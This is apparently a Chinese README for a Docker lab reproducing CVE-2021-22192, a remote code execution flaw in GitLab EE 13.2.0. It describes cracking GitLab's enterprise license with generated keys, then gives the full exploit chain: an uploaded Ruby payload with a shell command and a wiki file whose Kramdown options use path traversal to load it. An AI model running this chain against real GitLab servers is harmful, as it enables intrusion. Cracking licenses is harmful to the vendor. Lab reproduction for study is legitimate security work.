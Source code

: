 # CVE-2021-22192

> CVE-2021-22192 靶场： 未授权用户 RCE 漏洞

------

## 0x10 靶场环境

![](https://img.shields.io/badge/Docker-latest-brightgreen.svg) ![](https://img.shields.io/badge/GitlabEE-13.2.0-brightgreen.svg) ![](https://img.shields.io/badge/Runner-latest-brightgreen.svg)




## 0x20 目录结构

```
CVE-2021-22192
├── README.md ............... [此 README 说明]
├── imgs .................... [辅助 README 说明的图片]
├── gitlab .................. [Gitlab 容器的挂载目录]
│   ├── Dockerfile .......... [Gitlab 的 Docker 构建文件]
│   ├── config .............. [Gitlab 配置挂载目录]
│   ├── data ................ [Gitlab 数据挂载目录]
│   ├── logs ................ [Gitlab 日志挂载目录]
│   ├── keys ................ [Gitlab 破解 License 存储目录]
│   └── nginx ............... [Gitlab 内置 nginx 配置目录（备份配置，勿改）]
├── runner .................. [Gitlab 容器的挂载目录]
├── license ................. [破解 License 的容器构建目录]
│   ├── Dockerfile .......... [License 的 Docker 构建文件]
│   └── license.rb .......... [生成破解 License 的 Ruby 脚本]
├── test .................... [Kramdown 调试目录]
├── docker-compose.yml ...... [Docker 的构建配置]
├── keygen.ps1 .............. [Windows: 一键生成破解 License]
├── keygen.sh ............... [Linux:   一键生成破解 License]
├── run.ps1 ................. [Windows: 一键运行 Gitlab 靶场]
├── run.sh .................. [Linux:   一键运行 Gitlab 靶场]
├── register.ps1 ............ [Windows: 一键注册 Runner]
├── register.sh ............. [Linux:   一键注册 Runner]
├── stop.ps1 ................ [Windows: 一键停止 Gitlab 靶场]
└── stop.sh ................. [Linux:   一键停止 Gitlab 靶场]
```




## 0x30 靶场搭建

### 0x31 构建

- 宿主机预装 docker 和 docker-compose
- 下载本仓库： [git clone https://github.com/lyy289065406/CVE-2021-22192](https://github.com/lyy289065406/CVE-2021-22192)
- 生成破解密钥对： [`./keygen.sh`](keygen.sh) 或 [`./keygen.ps1`](keygen.ps1)
- 构建并运行 Gitlab （确保 80 端口未占用）： [`./run.sh`](run.sh) 或 [`./run.ps1`](run.ps1)
- 约 5 分钟后可从浏览器登录 Gitlab：[http://127.0.0.1](http://127.0.0.1) （首次登录需要重设管理员账号 root 的密码）


### 0x32 破解

前面生成破解密钥对的时候，已经把公钥写入 Gitlab 容器后台了，还需要把私钥通过前端上传到 Gitlab 完成破解：

- 密钥对生成到 [`./gitlab/keys/`](gitlab/keys/) 目录，复制其下 `.gitlab-license` 的内容（私钥）
- 使用 root 用户打开 [http://127.0.0.1/admin/license/new](http://127.0.0.1/admin/license/new) 页面
- 选择 `Enter license key` 并粘贴私钥，点击 `Upload license` 按钮即可完成破解


![](imgs/01.png)


### 0x33 设置 Runner

- 使用 root 用户打开 [http://127.0.0.1/admin/runners](http://127.0.0.1/admin/runners) 页面
- 找到 registration token 并复制
- 注册 Runner： [`./register.sh $TOKEN`](register.sh) 或 [`./register.ps1 $TOKEN`](register.ps1)

> 至此所有 Repository 都可以使用此 Runner 执行 CI 脚本（Pipeline Jobs）

![](imgs/02.png)


### 0x34 访问 Gitlab Pages

假设你的 Gitlab 用户名为 `${username}`，仓库名称为 `${repository_name}`，当仓库已经使用 jekyll 成功构建 SSG 后，只需要访问以下 URL 即可：

[http://127.0.0.1:8000/${username}/${repository_name}/public/](http://127.0.0.1:8000)



## 0x40 靶场验证

> 具体过程参考可 [hackerone](https://hackerone.com/reports/1125425)。

1. 使用任意用户点击顶部的 `+ -> New snippet`
2. `Title` 随意填即可，点击 `Description (optional)` 的输入框，然后点击 `Attach a file`，上传一个名为 `payload.rb` 文件，其内容如下：

```
puts "hello from ruby"
`echo exp was here > /tmp/exp`
```

此时在 `Description (optional)` 会显示该文件的链接，例如：`[payload.rb](/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb)`，同时文件已经上传到 docker_gitlab 容器的 `/var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb`。（至于 `Create snippet` 可点可不点，只需要记住这个文件路径的 Hash 即可）

> 注意：不要通过某一个仓库左侧边栏的 `Snippet -> New snippet`，否则回显的文件路径会变成 `[payload.rb](/uploads/b5e4fed771f26ef75700ebf763f489ab/payload.rb)`，实际上上传到 docker_gitlab 容器的路径会变成 `/var/opt/gitlab/gitlab-rails/uploads/@hash/随机字符串/payload.rb`，由于中间有一段随机字符串，很难利用。

5. 点击顶部的 `+ New Project`，命名随意（如 `poc`，或不创建、用已存在的仓库亦可）
6. 点击左侧 `Wiki`，然后点击 `Create your first page`
7. `Title` 和 `Content` 随意填即可， 点击 `Create page`
8. 此时 Gitlab 会生成当前 `poc` 仓库的 wiki 仓库，名为 `poc.wiki`（点击右上角的 `Clone repository`，可以找到 clone 命令： `git clone http://127.0.0.1/root/poc.wiki.git`）。
9. 在本地终端执行命令 `git clone http://127.0.0.1/root/poc.wiki.git && cd poc.wiki` 下载 wiki 仓库到本地
10. 在 wiki 仓库的根目录添加一个名为 `page1.rmd` 的文件，其内容如下（注意文件路径中的 Hash 要替换为前面得到的 Hash）：

```
{::options syntax_highlighter="rouge" syntax_highlighter_opts="{formatter: Redis, driver: ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb\}" /}
~~~ ruby
def what?
42
end
~~~
```

11. 执行命令提交该文件到 Gitlab： `git add -A . && git commit -m "page1.rmd" && git push`
12. 回到前面 [Gitlab Wiki](http://127.0.0.1/root/poc/-/wikis) 的页面，刷新，可以在右侧索引栏看到在本地创建的 `page1` 页面，点击它
13. 等待页面回显内容后，登陆 docker_gitlab 容器，可以找到文件 `/tmp/exp` 已经被创建

> 点击 `page1.rmd` 页面后，其实可以在 `gitlab/logs/gitlab-rails/exceptions_json.log` 看到报错信息，但是这不影响命令已经被执行：

```json
{
    "severity": "ERROR",
    "time": "2021-04-26T10:36:07.978Z",
    "correlation_id": "A24bByUP9L5",
    "tags.correlation_id": "A24bByUP9L5",
    "tags.locale": "en",
    "user.id": 1,
    "user.email": "admin@example.com",
    "user.username": "root",
    "extra.project_id": 1,
    "extra.file_name": "page1.rmd",
    "exception.class": "NameError",
    "exception.message": "wrong constant name ../../../../../../../../../../var/opt/gitlab/gitlab-rails/uploads/-/system/user/1/b5e4fed771f26ef75700ebf763f489ab/payload.rb",
    "exception.backtrace": [
        "lib/gitlab/other_markup.rb:11:in `render'",
        "app/helpers/markup_helper.rb:274:in `other_markup_unsafe'",
        "app/helpers/markup_helper.rb:153:in `markup_unsafe'",
        "app/helpers/markup_helper.rb:138:in `render_wiki_content'",
        "app/views/shared/wikis/show.html.haml:25",
        "app/controllers/application_controller.rb:134:in `render'",
        "app/controllers/concerns/wiki_actions.rb:68:in `show'",
        "ee/lib/gitlab/ip_address_state.rb:10:in `with'",
        "ee/app/controllers/ee/application_controller.rb:44:in `set_current_ip_address'",
        "app/controllers/application_controller.rb:491:in `set_current_admin'",
        "lib/gitlab/session.rb:11:in `with_session'",
        "app/controllers/application_controller.rb:482:in `set_session_storage'",
        "app/controllers/application_controller.rb:476:in `set_locale'",
        "lib/gitlab/error_tracking.rb:50:in `with_context'",
        "app/controllers/application_controller.rb:541:in `sentry_context'",
        "app/controllers/application_controller.rb:469:in `block in set_current_context'",
        "lib/gitlab/application_context.rb:52:in `block in use'",
        "lib/gitlab/application_context.rb:52:in `use'",
        "lib/gitlab/application_context.rb:20:in `with_context'",
        "app/controllers/application_controller.rb:462:in `set_current_context'",
        "ee/lib/gitlab/jira/middleware.rb:19:in `call'"
    ]
}
```


